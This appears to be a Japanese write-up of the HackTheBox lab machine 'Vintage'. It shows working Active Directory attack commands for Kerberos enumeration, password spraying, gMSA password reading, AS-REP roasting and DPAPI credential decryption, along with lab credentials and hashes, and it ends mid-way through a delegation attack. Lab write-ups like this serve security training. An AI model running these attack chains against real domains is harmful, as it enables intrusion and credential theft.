# HTB Vintage Writeup


マシンの起動画面には以下のように事前に認証情報が与えられました。


# Enumration

## Nmap

```bash
-> % nmap -sV -sC -p- --min-rate 10000 10.10.11.45 -oN Nmap.scan 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-23 11:37 JST
Nmap scan report for vintage.htb (10.10.11.45)
Host is up (0.098s latency).
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-23 02:22:49Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: vintage.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vintage.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49990/tcp open  msrpc         Microsoft Windows RPC
49995/tcp open  msrpc         Microsoft Windows RPC
50017/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: -14m42s
| smb2-time: 
|   date: 2024-12-23T02:23:47
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 120.42 seconds
```

Webサーバーは起動していないようです。

スキャン結果からドメインを見つけたのでhostsファイルに追加しておきます。

```
10.10.11.45 vintage.htb
```

## Domain

digでドメインの列挙を行います。

```bash
dig any vintage.htb @10.10.11.45
```



`dc01.vintage.htb` を見つけたのでhostsファイルに追加します。

## SMB

事前に与えられている認証情報でNetExecを使用してsmbの列挙を行います。

```bash
netexec smb 10.10.11.45 -u 'P.Rosa' -p 'Rosaisbest123'
```



`STATUS_NOT_SUPPORTED` と表示されています。これはNTLM認証をドメイン内でサポートされていないことを示しています。

kerberos認証をするにはドメインコントローラーの時間と攻撃端末の時間を同期する必要があります。

```bash
timedatectl set-ntp off
sudo ntpdate -u dc01.vintage.htb
```

NetExecでは `-k` オプションでkerberos認証を使用して認証を行うとことができるので、kerberos認証を使用してで再び実行すると狙い通り認証が成功しました。

```bash
netexec smb dc01.vintage.htb -u 'P.Rosa' -p 'Rosaisbest123' -k
```

 

認証が成功したのでドメイン内の列挙をしていきますが、その前に `impacket-getTGT` で `P.Rosa` のTGTを取得し、チケットを使って認証をしていきます。

```bash
impacket-getTGT -dc-ip dc01.vintage.htb vintage.htb/P.Rosa:Rosaisbest123
```



取得したチケットは環境変数の `KRB5CCNAME` にエクスポートすることで使えます。

```bash
export KRB5CCNAME=P.Rosa.ccache
```

エクスポートしたチケットは `klist` コマンドで確認できます。



### SMB共有の列挙

```bash
netexec smb dc01.vintage.htb -k --use-kcache --shares
```



共有フォルダが読み込めるみたいです。しかし、smbclientなどで調べてみましたが、とくに使えそうな情報は見つかりませんでした。

### RID のブルートフォース攻撃によるユーザーの列挙

RIDをブルートフォース攻撃してドメインユーザーを列挙します。


ユーザーリストにまとめておきます。

```
Administrator
Guest
krbtgt
DC01
gMSA01
FS01
M.Rossi
R.Verdi
L.Bianchi
G.Viola
C.Neri
P.Rosa
svc_sql
svc_ldap
svc_ark
C.Neri_adm
L.Bianchi_adm
```

## BloodHound

つづいてBloodHoundをつかって列挙していきます。

```bash
bloodhound-python -d vintage.htb -u 'P.Rosa' -p 'Rosaisbest123' -dc dc01.vintage.htb -ns 10.10.11.45 --zip -c All
```



作成されたzipファイルをBloodHoundにアップロードします。


現在制御できるアカウントは `P.Rosa` のみなのでこいつから列挙していきます。

しかし、`P.Rosa` にはとくに悪用できそうな権限は持っていませんでした。

いろいろ見ていると`FS01` は `gMSA01` に対してReadGMSAPasswordの権限を持っていることが分かりました。


つづいて、`GMSA01$` は `ServiceManagers` にたいして `GenericWrite` の権限をもっていることが分かりました。この権限により、自信を `ServiceManagers` に追加することができます。


`ServiceManagers` はサービスアカウントの `svc_ark`, `svc_sql`, `svc_ldap` に対して `GenericAll` の権限を持っています。この権限により、標的型 Kerberoast 攻撃やパスワードの強制変更をすることができます。


つづいてサービスアカウント３つが持っている権限について調べてみましたが、とくに悪用できそうな権限は持っていませんでした。

しかし、`svc_sql` のみアクティブなユーザーではないことが分かりました。


これまでの列挙から、まずはFS01の初期アクセスが必要になってきます。

# 初期アクセス

事前認証に与えられているパスワードが使いまわされていないか調べます。

```bash
netexec smb dc01.vintage.htb -u users.txt -p 'Rosaisbest123' -k --continue-on-success
```



使いまわされてはいないようです。つづいて脆弱性なパスワードが使われていないか調べます。たまに、ユーザー名と同じパスワードやユーザー名に似たパスワードが使われいていることがあります。

ユーザーリストからパスワードリストを作成できる [username-anarchy](https://github.com/urbanadventurer/username-anarchy) でusers.txtからパスワードリストを作成します。



できたパスワードリストで再びパスワードスプレーを行います。



コンピュータアカウントの `FS01` が `fs01` でログインできることが分かりました。これでFS01を制御することができます。

# ReadGMSAPasswordの悪用

この権限を悪用するにはNetExecを使うことができます。NetExecには `--gmsa` オプションがあり、これによりgmsaパスワードを読み取ることができます。しかし、このオプションにはldapsが使用されます。このマシンではldapsが動いていないのでこれは機能しませでした。

```bash
netexec ldap dc01.vintage.htb -u FS01 -p 'fs01' -k --gmsa
```



もう一つの方法は [bloodyAD](https://github.com/CravateRouge/bloodyAD) を使う方法です。

以下のコマンドでパスワードを抽出することができます。

```bash
bloodyAD --host dc01.vintage.htb --dc-ip 10.10.11.45 -d vintage.htb -u FS01 -p fs01 -k get object 'gMSA01$' --attr msDS-ManagedPassword
```



`GMSA01` のNTLMハッシュを取得しました。つづいて、gMSA01を `ServiceManagers` に追加します。

# GenericWriteの悪用

[powerview.py](https://github.com/aniqfakhrul/powerview.py)を使います。これはPowerViewをlinux上から使うことができる便利なスクリプトです。

以下のコマンドでPowerViewを使うことのできる特別なシェルが起動します。

その前に `gMSA01` のTGTを取得しておきます。

```bash
impacket-getTGT -hashes :a317f224b45046c1446372c4dc06ae53 -dc-ip 10.10.11.45 vintage.htb/gMSA01
```


チケットをエクスポート

```bash
export KRB5CCNAME=gMSA01.ccache
```



```bash
powerview -k --no-pass vintage.htb/gMSA01@dc01.vintage.htb
```

gMSA01を `ServiceManagers` に追加します。

```powershell
Get-DomainObject -Identity ServiceManagers -Select member
Add-DomainGroupMember -Identity ServiceManagers -Members gMSA01
```



追加することができました。

追加されているか確認

```powershell
Get-DomainObject -Identity ServiceManagers -Select member
```



# GenericAllの悪用

ServiceManagersのメンバーはサービスアカウント３つに対して `GenericAll` の権限を持っているのでこれを悪用して`userAccountControl`に `DONT_REQ_PREAUTH` を割り当てます。

[UserAccountControl フラグを使用してユーザー アカウントのプロパティを操作する](https://learn.microsoft.com/ja-jp/troubleshoot/windows-server/active-directory/useraccountcontrol-manipulate-account-properties)

`DONT_REQ_PREAUTH` はKerberos事前認証を無効化する値です。この値を設定することによってAS-REPRoast攻撃により、ユーザーのパスワードハッシュを取得することができます。

現在のuserAccountControlの値を取得する

```bash
Get-DomainObject -Identity svc_sql -Select userAccountControl,cn
Get-DomainObject -Identity svc_ark -Select userAccountControl,cn
Get-DomainObject -Identity svc_ldap -Select userAccountControl,cn
```



先ほどのBloodHoundでもあったようにsvc_sqlは `ACCOUNTDISABLE` が割り当てられていることからユーザーが無効化されているので有効かさせる必要があります。

userAccountControlの設定はPowerViewを使って設定することができますが、powerview.pyではなぜかうまくいかなかったので、bloodyADを使って行います。

svc_sqlを有効化します。


TGTを使ってuserAccountControlに`DONT_REQ_PREAUTH`を割り当てます。これをsvc_ark,svc_ldapに対しても行います。






impacket-GetNPUsersでAS-REPRoast攻撃を実行します。

```bash
impacket-GetNPUsers -k -no-pass -usersfile users.txt -format hashcat -outputfile hashes.txt vintage.htb/
```



３つのパスワードハッシュを取得することができました。hashcatで解析します。



svc_sqlのパスワードハッシュの解析に成功し、パスワードが `Zer0the0ne` であることが分かりました。

このパスワードが他のユーザーで使用されていないか調べてみます。

```bash
netexec smb dc01.vintage.htb -u users.txt -p 'Zer0the0ne' -k --continue-on-success
```



`C.Neri` で認証に成功しました。`C.Neri` でもこのパスワードが使いまわされていることが分かりました。

# User.txt

nmapのスキャン結果からWinRMが動いていることが分かっているのでevil-winrmでログインします。

kerberos認証をevil-winrmで使うには `/etc/krb5.conf` を以下のように設定する必要があります。

```bash
-> % cat /etc/krb5.conf                                                    
[libdefault]
    default_realm = VINTAGE.HTB
	dns_lookup_realm = false
	dns_lookup_kdc = false
	ticket_lifetime = 24h
	forwardable = yes
	rdns = false
[realms]
        VINTAGE.HTB = {
                kdc = DC01.VINTAGE.HTB
                admin_server = DC01.VINTAGE.HTB
				default_domain = vintage.htb
        }
[domain_realm]
        vintage.htb = VINTAGE.HTB
        .vintage.htb = VINTAGE.HTB
```

C.NeriのTGTを要求して、エクスポートします。

```bash
impacket-getTGT -dc-ip dc01.vintage.htb vintage.htb/C.Neri:Zer0the0ne
```



```bash
export KRB5CCNAME=C.Neri.ccache
```



この設定を行うことでWinRmへのアクセスに成功しました。

```bash
evil-winrm -i dc01.vintage.htb -r vintage.htb
```


user.txtを取得できました。



# Privilage Escalation

とりあえずwinPEASを実行しようとアップロードしましたが、ウイルス対策ソフトが動いており、PowerViewやwinPEASなどの列挙ツールをアップロードすることはできませんでした。

C:\Usersを見てみると `c.neri_adm` というローカルアカウントがありました。Administratorになるまえにこいつにまずは横移動する必要がありそうです。



## DPAPIの利用による認証情報の取得

自動での列挙ができないので手動での列挙をします。

PowerShellの履歴やDPAPIから認証情報が取得できるか試しました。

PowerShellの履歴は `Get-Hitory` コマンドか `C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine` から見ることができまが、今回は何も見つかりませんでした。

つづいてDPAPIを調べてみます。

DPAPIとは、Windowsのユーザーやシステムの情報を暗号化するためのAPIです。データはユーザーのディレクトリに保存され、ユーザーのパスワードから派生したユーザー固有のmasterkeyによって保護されます。

マスターキーは通常、以下の場所にあります。

```powershell
C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Protect\<SUID>
```

今回はmasterkeyが２つあったので両方ダウンロードしときます。



ダウンロードするときなんかエラーが出てますが、問題なくダウンロードできていました。



次に、DPAPIで保護されたデータが含まれる資格情報ファイルは以下の場所にあります。

```
C:\Users\<USERNAME>\AppData\Local\Microsoft\Credentials
C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Credentials
```

各フォルダから１ずつダウンロードします。





masterkeyと資格情報ファイルがダウンロードできたのでimpacket-dpapiでオフラインで解析します。

結果として、masterkeyは `99cf41a3-a552-4cf7-a8d7-aca2d6f7339b`, 資格情報ファイルは `C4BB96844A5C9DD45D5B6A9859252BA6` を使うことで `C.Neri_adm` のパスワードを取得することができました。

まず、マスターキーを復号化を行います。

```bash
impacket-dpapi masterkey -file 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b -sid S-1-5-21-4024337825-2033394866-2055507597-1115 -password Zer0the0ne
```



masterkeyが複合できたのでmasterkeyを使用してDPAPIで保護されたデータを復号化を行います。

```bash
impacket-dpapi credential -file C4BB96844A5C9DD45D5B6A9859252BA6 -key 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
```



C.Neri_admのパスワード `Uncr4ck4bl3P4ssW0rd0312` の復号に成功しました。

今回はこのマシンがアンチウィルスソフトのせいでツールをアップロードできないので使えないのですが、[SharpDPAPI](https://github.com/GhostPack/SharpDPAPI), mimikazを使うことで同じことができます。

パスワードを取得することができたのでこれで `C.Neri_adm` TGTを取得します。これで `C.Neri_adm` を制御できます。

```bash
impacket-getTGT -dc-ip dc01.vintage.htb vintage.htb/C.Neri_adm:Uncr4ck4bl3P4ssW0rd0312
```



```bash
export KRB5CCNAME=C.Neri_adm.ccache
```


## S4U2SelfとS4U2Proxyを利用した成りすまし攻撃

BloodHoundで `C.Neri_adm` の権限を見てみると、 `DelegatedAdmins` に対して `GenericWrite` の権限をもっていることが分かりました。


そして、 `C.Neri` は`ServiceManagers` に属していることが分かります。


`ServiceManagers` のメンバーはサービスアカウントに対して `GenericAll` の権限を持っています。現在制御できるサービスアカウント３つのうち `svc_sql` のパスワードを取得しています。


`DelegatedAdmins` を調べてみると、このグループには `L.Bianchhi_adm` , `C.Neri_adm` という２人のユーザーが属していることが分かりました。


`L.Bianchi_adm` は `Domain Admins` のグループであることが分かりました。


`DelegatedAdmins` は名前からして委任の管理をするグループだと思うので、コンピュータアカウントやユーザーに委任の設定がされていないか調べてみます。

### Resource-Based Constrained Delegation (リソースベースの制約付き委任)

bloodhoundはどのような委任が設定されているかが分からないので[powerview.py](https://github.com/aniqfakhrul/powerview.py)で列挙を行います。powerview.pyはlinux端末からPowerViewを使うことのできる便利なスクリプトです。

コンピュータアカウントのDC01に `Resource-based Constrained Delegation（リソースベースの制約付き委任)` が `DelegatedAdmins` に対して設定されていることが分かりました。

```bash
